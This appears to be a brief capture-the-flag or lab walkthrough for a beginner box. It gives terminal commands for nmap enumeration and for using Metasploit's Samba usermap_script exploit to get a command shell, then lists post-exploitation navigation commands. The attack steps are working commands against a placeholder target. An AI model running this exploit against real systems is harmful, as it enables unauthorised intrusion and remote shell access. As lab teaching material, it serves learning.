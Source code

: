 #H1 First Box

#H2 Terminal setup

Either be in root or use sudo. 
Create three tabs (VPN, NMAP, HACK).

# H2 Enumeration

First scans

```
# nmap -sV -A -oN output.txt. <ip address>
```

search in metasploit

```
# msfconsole

msf5> search samba
```

Review the excellent ranked modules
```
msf5> info /exploit/linux/samba
msf5> info /exploit/multi/samba/usermap_script
```
#H2 Attack

To execute
```
msf5> use /exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) >  show options
msf5 exploit(multi/samba/usermap_script) >  set RHOST <ip address>
msf5 exploit(multi/samba/usermap_script) >  exploit
```

This will create a command shell back in the terminal

#H2 Endgame

summary
```
id
pwd
cd /home/<user>
cd /root
```
